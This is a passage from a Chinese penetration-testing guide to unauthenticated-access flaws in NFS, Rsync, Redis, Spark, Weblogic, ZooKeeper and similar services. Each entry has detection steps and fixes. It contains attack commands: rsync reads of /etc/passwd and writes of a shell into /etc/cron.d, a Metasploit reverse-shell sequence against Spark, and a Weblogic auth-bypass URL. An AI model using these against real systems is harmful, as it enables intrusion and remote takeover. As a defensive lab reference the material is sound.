#安装nfs客户端
apt install nfs-common
#查看nfs服务器上的共享目录
showmount -e 192.168.126.130
#挂载相应共享目录到本地
mount -t nfs 192.168.126.130:/grdata /mnt
#卸载目录
umount /mnt
3.漏洞修复
利用iptables限制端口2049和20048端口的访问，禁止外部访问；
设置/etc/exports，对访问进行控制
0x20 Rsync 未授权访问
1.漏洞简介
rsync是Linux/Unix下的一个远程数据同步工具，可通过LAN/WAN快速同步多台主机间的文件和目录，默认运行在873端口。由于配置不当，导致任何人可未授权访问rsync，上传本地文件，下载服务器文件。
2.漏洞检测
使用vulhub搭建漏洞演示环境
cd /vulhub/rsync/common
docker-compose build
docker-compose up -d
使用Rsync命令即可进行检测
rsync rsync://192.168.126.130:873/
rsync rsync://192.168.126.130:873/src

利用rsync下载任意文件
rsync rsync://192.168.126.130:873/src/etc/passwd ./
![])25.png)
或者写入任意文件
rsync -av shell rsync://192.168.126.130:873/src/etc/cron.d/shell

3.漏洞修复
隐藏 module 信息：修改配置文件 list =false。
权限控制：不需要写入权限的 module 的设置为只读 Read only = true;
网络访问控制：使用安全组策略或白名单限制，只允许必要访问的主机访问;
账户认证：只允许指定的用户利用指定的密码使用 rsync 服务;
数据加密传输：Rsync 默认没有直接支持加密传输，如果需要 Rsync 同步重要性很高的数据，可以使用 ssh;
参考文章：https://www.freebuf.com/column/202771.html
0x21 Redis 未授权访问
1.漏洞简介
redis是一个数据库，默认端口是6379，redis默认是没有密码验证的，可以免密码登录操作，攻击者可以通过操作redis进一步控制服务器。
Redis未授权访问在4.x/5.0.5以前版本下，可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。
2.漏洞检测
kali安装redis-cli远程连接工具
wget http://download.redis.io/redis-stable.tar.gz
tar -zxvf redis-stable.tar.gz
cd redis-stable
make
cp src/redis-cli /usr/bin/
redis-cli -h
使用redis-cli命令直接远程免密登录redis主机
redis-cli -h 目标主机IP

3.漏洞修复
禁止使用root权限启动redis服务；
对redis访问启动密码认证；
添加IP访问限制，并更改默认6379端口
0x22 RabbitMQ 未授权访问
1.漏洞简介
RabbitMQ是目前非常热门的一款消息中间件，基于AMQP协议的，可以在发布者和使用者之间交换异步消息。 消息可以是人类可读的JSON，简单字符串或可以转换为JSON字符串的值列表。
2.漏洞检测
默认账号密码都是guest
http://10.10.4.89:15672
http://10.10.4.89:25672/
http://10.10.4.89:15692/

3.漏洞修复
修改为强密码，删除默认的账号guest；
禁止对外网开放，仅限于内部访问；
0x23 Solr 未授权访问
1.漏洞简介
Solr是一个高性能，采用Java开发，基于Lucene的全文搜索服务器。solr的管理界面通常包含如下信息：solr的配置信息（包括路径，用户名，系统版本信息），数据库的配置信息（地址，用户名，密码），数据库搜索数据等。solr未授权访问的危害很大，轻则可查询所有数据库信息，重则可读取系统任意文件，甚至getshell。
2.漏洞检测
敏感目录扫描时加上一条 /solr/admin
http://xx.xx.com/solr/admin
https://xx.xx.com/solr/admin

3.漏洞修复
配置solr访问控制权限；
禁止将solr暴露在公网；
0x24 SpringBoot Actuator 未授权访问
1.漏洞简介
Actuator 是 springboot 提供的用来对应用系统进行自省和监控的功能模块，借助于 Actuator 开发者可以很方便地对应用系统某些监控指标进行查看、统计等。在 Actuator 启用的情况下，如果没有做好相关权限控制，非法用户可通过访问默认的执行器端点（endpoints）来获取应用系统中的监控信息，从而导致信息泄露甚至服务器被接管的事件发生。
2.漏洞检测
直接访问相关路径：
http://10.2.20.48/autoconfig
请求方式 URL路径 功能描述
get /autoconfig 提供了一份自动配置报告，记录哪些自动配置条件通过了，哪些没通过
get /configprops 描述配置属性（包含默认值）如何注入 Bean
get /beans 描述应用程序上下文里全部的 Bean，以及它们的关系
get /dump 获取线程活动的快照
get /env 获取全部环境属性
get /env/{name} 根据名称获取特定的环境属性值
get /health 报告应用程序的健康指标，这些值由 HealthIndicator 的实现类提供
get /info 获取应用程序的定制信息，这些信息由 info 打头的属性提供
get /mappings 描述全部的 URI 路径，以及它们和控制器（包含 Actuator 端点）的映射关系
get /metrics 报告各种应用程序度量信息，比如内存用量和 HTTP 请求计数
get /metrics/{name} 报告指定名称的应用程序度量值
post /shutdown 关闭应用程序，要求 endpoints.shutdown.enabled 设置为 true（默认为 false）
get /trace 提供基本的 HTTP 请求跟踪信息（时间戳、HTTP 头等）
3.漏洞修复
禁用/env接口；
升级到SpringBoot Actuator 2.0；
禁止对外开放；
0x25 Spark 未授权访问
1.漏洞简介
Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动访问控制，攻击者可以在集群中执行任意代码。该漏洞的本质是未授权用户可以向Master节点提交一个应用，Master节点会分发给Slave节点执行应用。如果应用中包含恶意代码，会导致任意代码执行，威胁Spark集群整体的安全性。
2.漏洞检测
nmap扫描出如下端口开放，则很有可能存在漏洞
6066/tcp open http Jetty 9.3.z-SNAPSHOT
8081/tcp open http Jetty 9.3.z-SNAPSHOT
8082/tcp open http Jetty 9.3.z-SNAPSHOT

使用msf工具getshell
msf5>use exploit/linux/http/spark_unauth_rce
msf5>set payload java/meterpreter/reverse_tcp
msf5>set rhost 192.168.100.2
msf5>set rport 6066
msf5>set lhost 192.168.100.1
msf5>set lport 4444
msf5>set srvhost 192.168.100.1
msf5>set srvport 8080
msf5>exploit
3.漏洞修复
对外关闭敏感端口；
配置用户权限认证；
参考文章：https://www.cnblogs.com/KevinGeorge/p/10399844.html
0x26 VNC 未授权访问
1.漏洞简介
VNC 是虚拟网络控制台Virtual Network Console的英文缩写。它是一款优秀的远程控制工具软件由美国电话电报公司AT&T的欧洲研究实验室开发。VNC是基于 UNXI 和 Linux 的免费开源软件由 VNC Server 和 VNC Viewer 两部分组成。
VNC 默认端口号为 5900、5901。VNC 未授权访问漏洞如被利用可能造成恶意用户直接控制受控主机危害相当严重。
2.漏洞检测
使用 metasploit 进行批量检测，使用检测模块
auxiliary/scanner/vnc/vnx_none_auth
在kali上直接使用vncviewer命令连接主机
vncviewer ip
3.漏洞修复
配置 VNC 客户端登录口令认证并配置符合密码强度要求的密码；
以最小权限的普通用户身份运行操作系统
0x27 Weblogic 未授权访问
1.漏洞简介
Weblogic是Oracle公司推出的J2EE应用服务器，CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。
2.漏洞检测
使用vulhub搭建漏洞演示环境
cd vulhub/weblogic/CVE-2020-14882
sudo docker-compose up -d

攻击者可以构造特殊请求的URL，即可未授权访问到管理后台页面：
http://192.168.126.130:7001/console/css/%252e%252e%252fconsole.portal

远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console ，并在 WebLogic Server Console 执行任意代码。
weblogic 权限绕过命令执行漏洞复现
3.漏洞修复
下载补丁程序并安装更新
0x28 ZooKeeper 未授权访问
1.漏洞简介
ZooKeeper 是一个分布式的开放源码的分布式应用程序协调服务，ZooKeeper 默认开启在 2181 端口在未进行任何访问控制的情况下攻击者可通过执行 envi 命令获得系统大量的敏感信息包括系统名称Java 环境，任意用户在网络可达的情况下进行为未授权访问并读取数据甚至 kill 服务。
2.漏洞检测
stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181
ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181
dump：列出未完成的会话和临时节点
echo dump |ncat 127.0.0.1 2181
3.漏洞修复
为ZooKeeper配置相应的访问权限；
设置防火墙策略；
禁止把Zookeeper直接暴露在公网
0x29 Zabbix 未授权访问
1.漏洞简介
zabbix是一款服务器监控软件，默认服务开放端口为10051，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。
2.漏洞检测
无需账户密码直接访问zabbix页面

3.漏洞修复
设置zabbix的复杂口令，不要用默认口令或弱口令，禁用guest登录功能；
zabbix的server和agent都不要以root启动，不要设置AllowRoot=1；
禁止agent执行system.run，不要设置EnableRemoteCommands=1；
参考文章
https://www.it610.com/article/1303971168365088768.htm
https://xz.aliyun.com/t/6103#toc-1
https://www.yuque.com/cheng-4ueio/tow7i5/wrbzgy
https://www.cnblogs.com/xiaozi/p/13369596.html